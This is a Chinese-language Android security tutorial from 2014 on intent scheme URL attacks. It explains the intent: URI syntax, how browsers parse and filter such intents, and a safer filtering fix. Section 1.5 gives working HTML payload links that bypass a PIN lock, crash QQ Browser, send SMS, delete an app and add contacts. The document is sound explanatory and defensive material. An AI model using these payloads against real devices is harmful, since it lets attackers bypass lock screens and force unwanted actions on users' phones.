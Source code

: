 #一.  Intent scheme URL attack

---

**Author:瘦蛟舞**

**Create:20140824**

##1.1  Android Intents with Chrome

Android有一个很少人知道的特性可以通过web页面发送intent来启动apps。以前通过网页启动app是通过设置iframe的src属性，例如：<iframe src="paulsawesomeapp://page1"> </iframe>。此方法适用version 18或者更早版本。其他android浏览器也适用。
这个功能在安卓chrome 浏览器version 25之后版本发生了改变。不能在通过设置iframe标签的src属性来启动app了。取而代之的是你应该通过自定义scheme实现用户手势启动app或者使用本文描述的“intent:”语法。

###1.1.1  基本语法

“最佳实践”是构造一个intent插入网页中使用户能够登录app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过Intent Extras传递额外信息。
intent-based URI基本语法如下：

	intent:
	   HOST/URI-path // Optional host
	   #Intent;
	      package=[string];
	      action=[string];
	      category=[string];
	      component=[string];
	      scheme=[string];
	   end;

语法细节见源码Android source

![](img/parse1.png)

![](img/parse2.png) 
 
###1.1.2  简单举例

例子是一个intent登陆应用“Zxing barcode scanner”，语法如下：

	intent:
	   //scan/
	   #Intent;
	      package=com.google.zxing.client.android;
	      scheme=zxing;
	   end;

设置a标签发href属性：

	<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a>

Package和host定义在配置文件中Android Zxing Manifest

###1.1.3  注意事项

如果调用activity的intent包含extras，同样可以包含这些。(不支持序列化)

Activity只有配置了category filter才有被android.intent.category.BROWSABLE通过这种方式在浏览器中打开，因为这样表明其是安全的。

###1.1.4  另请参阅

* Android Intents and Intent Filters
* Android Activities

##1.2  利用思路
 	
在Android上的Intent-based攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based的恶意样本还是很容易被识别出来的。
然而最近出现了一种基于Android Browser的攻击手段——Intent Scheme URLs攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现Intend-Based攻击。相比于普通Intend-Based攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏WebPage中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如cookie文件，进而导致用户机密信息的泄露。

##1.3  Intent scheme URL的用法

看一下Intent Scheme URL的用法。

	<script>location.href = “intent:mydata#Intent;action=myaction;type=text/plain;end”</script>  

从用法上看，还是很好理解的，这里的代码等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.parse("mydata"));  
	intent.setType("text/plain");  

再看一个例子：

	intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end  

上面的语句，等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.pase("//foobar/"));  
	intent.putExtra("xyz", "123");  
	intent.putExtra("abc", 678);  

其中S代表String类型的key-value，i代表int类型的key-value。
源码中提供了Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析uri，如果想更一步了解其中的语法，可以查看官方源码。

##1.4  Intent scheme URI的解析及过滤

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

* 利用Intent.parseUri解析uri，获取原始的intent对象；
* 对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
* 通过Context.startActivityIfNeeded或者Context.startActivity发送intent；

其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

关键函数

	Intent.parseUri()

绕过

	Intent.setComponent(null);

使用sel;

##1.5  乌云案例

http://www.wooyun.org/bugs/wooyun-2014-073875 
http://www.wooyun.org/bugs/wooyun-2014-067798 

某浏览器对此支持非常好
	
	<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
	   设置绕过Pin码（android 3.0-4.3）
	</a><br>
 
![](img/pincode.png)

	<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
	    qq浏览器崩溃
	</a><br>
 
	<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
	    打开原生浏览器
	</a><br>
 
	<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
	   发送短信
	</a><br>
	
	<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
	   打开相机
	</a><br>
	
	<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
	   删除应用
	</a><br>
	
	<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
	    添加联系人
	</a><br>

##1.6  修复

通过以上漏洞的描述，总结得出一种相对比较安全的Intent Filter方法，代码如下：

	// convert intent scheme URL to intent object  
	Intent intent = Intent.parseUri(uri);  
	// forbid launching activities without BROWSABLE category  
	intent.addCategory("android.intent.category.BROWSABLE");  
	// forbid explicit call  
	intent.setComponent(null);  
	// forbid intent with selector intent  
	intent.setSelector(null);  
	// start the activity by the intent  
	context.startActivityIfNeeded(intent, -1);  

##1.7 参考

http://www.mbsd.jp/Whitepaper/IntentScheme.pdf
http://blog.csdn.net/l173864930/article/details/36951805
